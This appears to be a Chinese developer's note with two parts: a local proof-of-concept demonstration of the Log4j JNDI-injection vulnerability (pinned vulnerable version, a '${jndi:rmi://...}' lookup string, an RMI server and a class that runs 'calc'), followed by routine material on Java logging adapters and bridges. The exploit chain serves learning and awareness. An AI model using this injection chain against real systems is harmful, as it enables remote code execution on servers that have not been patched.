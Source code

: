 [TOC]

### log4j漏洞演示

```xml
<!--使用log4j日志; <=2.14.1; >= 2.15.0修复-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

```xml
<!--log4j2.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
	<!--全局参数-->
	<Properties>
		<Property name="pattern">log4j2: %d{yyyy-MM-dd HH:mm:ss} %5p [%t] - %m%n</Property>
	</Properties>
	<Loggers>
		<Root level="INFO">
			<AppenderRef ref="console"/>
		</Root>
	</Loggers>
	<Appenders>
		<!-- 定义输出到控制台 -->
		<Console name="console" target="SYSTEM_OUT" follow="true">
			<!--控制台只输出level及以上级别的信息-->
			<ThresholdFilter level="INFO" onMatch="ACCEPT" onMismatch="DENY"/>
			<PatternLayout>
				<Pattern>${pattern}</Pattern>
			</PatternLayout>
		</Console>
	</Appenders>
</Configuration>
```

```properties
# log4j.properties
log4j.rootLogger=DEBUG, stdout
log4j.appender.stdout.Target = System.out
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.layout.ConversionPattern=%5p [%t] - %m%n
```

```java
package cn.qingweico;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * -Dlog4j2.formatMsgNoLookups=true
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LogManager.getLogger("log4j");
    public static void main(String[] args) {
        String username="${java:os}";
        logger.info("Hello, {}",username);
    }
}

```

```xml
<!--使用slf4j日志-->
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
```

```java
package cn.qingweico;

import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class LogTest {
    private static final Logger logger = LoggerFactory.getLogger("slf4j");
    public static void main(String[] args) {
        String username="${jndi:rmi://127.0.0.1:8080/lookup}";
        logger.info("Hello, {}",username);
    }
}
```

```java
package cn.qingweico;

import java.io.IOException;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class Look {
   static {
      try {
         Runtime.getRuntime().exec("calc");
      } catch (IOException e) {
         e.printStackTrace();
      }
   }
}
```

```java
package cn.qingweico;


import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @author zqw
 * @date 2022/3/13
 */
public class RmiServer {
   public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
      Registry registry = LocateRegistry.createRegistry(8080);
      registry.bind("lookup", new ReferenceWrapper(new Reference(
              null, "cn.qingweico.Look", null
      )));
   }
}
```

### 日志适配和桥接

```xml
<!--jcl -->
<dependency>
    <groupId>commons-logging</groupId>
    <artifactId>commons-logging</artifactId>
    <version>1.2</version>
</dependency>
<!--log4j-->
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
<!--slf4j -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-api</artifactId>
    <version>1.7.25</version>
</dependency>
```

```xml
<!--slf4j适配log4j1.x -->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-log4j12</artifactId>
    <version>1.7.25</version>
</dependency>
<!--slf4j适配log4j2-->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-slf4j-impl</artifactId>
    <version>2.12.1</version>
</dependency>
<!--slf4j适配jcl-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>slf4j-jcl</artifactId>
    <version>1.7.25</version>
</dependency>
<!--log4j 桥接到 slf4j-->
<dependency>
    <groupId>org.slf4j</groupId>
    <artifactId>log4j-over-slf4j</artifactId>
    <version>1.7.25</version>
</dependency>
```

| 名称              | jar包                                         | 描述                             |
| ----------------- | --------------------------------------------- | -------------------------------- |
| log4j             | log4j-xxx.jar                                 | 早期常用日志组件                 |
| logback           | logback-core、logback-classic、logback-access | 一套日志组件的实现 性能优于log4j |
| log4j2            | log4j、log4-api 、log4j-core                  | apache 开发的一款log4j的升级产品 |
| java.util.logging | jdk                                           | Java 1.4 以来的官方日志实现      |

#### 适配器图示

![日志适配器](https://static-i0.oss-cn-shanghai.aliyuncs.com/pic/%E6%97%A5%E5%BF%97%E9%80%82%E9%85%8D%E5%99%A8.png)

#### 桥接器图示

![日志桥接器](https://static-i0.oss-cn-shanghai.aliyuncs.com/pic/%E6%97%A5%E5%BF%97%E6%A1%A5%E6%8E%A5%E5%99%A8.png)
